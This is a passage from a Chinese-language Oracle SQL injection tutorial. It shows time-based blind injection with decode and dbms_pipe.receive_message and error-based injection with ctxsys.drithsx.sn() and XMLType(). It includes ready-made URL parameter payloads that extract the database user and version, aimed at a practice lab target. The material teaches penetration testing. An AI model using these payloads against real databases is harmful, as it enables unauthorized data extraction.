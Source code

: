 配合使用**decode**函数，来构成条件语句，实现时间盲注

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_54_rJP7owVA.png)

decode函数可以当成MYSQL中的IF函数使用，相应的表达式可以参照布尔盲注

```sql
select decode(substr((select user from dual),1,1),'S',dbms_pipe.receive_message('o', 5),2) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_55_7Jrp4uhg.png)

也可以使用case...when.. then...else...end 来代替decode

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_55_uaSgCzqd.png)

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_56_NgMnoAye.png)

依次求解数据库，表，列名，字段值

#### 子查询/超大表构造时间盲注
时间盲注不一定要用DBMS_PIPE.RECEIVE_MESSAGE()函数，当在进行笛卡尔积，或者查询系统表，子查询大表的时候也会造成数据库查询时间很慢，比如在布尔盲注中查询当前用户权限可访问的数据库，需要一个一个表示的时候，在子查询中去重就会消耗大量时间，如下：

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_56_FMt817DO.png)

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_56_0OB7wlrz.png)



## 报错注入
[报错注入靶场环境](http://o1.lab.aqlab.cn:81/?id=1)

在进行报错注入之前，首先要确定目标环境在web页面上是否有错误回显，通常使用order by 大数字，或者构造错误的sql语句来判断，介绍几种报错注入函数，其他payload也就是换子查询的SQL语句

### ctxsys.drithsx.sn()

```sql
select ctxsys.drithsx.sn(1,(select user from dual))
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_57_E9GUI1Zh.png)

```sql
?id=1 and ctxsys.drithsx.sn(1,(select user from dual))=1--
?id=1 and ctxsys.drithsx.sn(1,(select banner from v$version))=1--
```
![image.png](Oracle 注入基础.assets/1632627825564-4dc7894a-75cd-4c5b-af18-4db23867ed58-20230712104451104.png)



![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_57_UcdD4naR.png)

### XMLType()
```sql
select upper(xmltype(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual;
```
```sql
-- paylaod
and (select upper(xmltype(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null--
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_57_KLSrI0Mn.png)
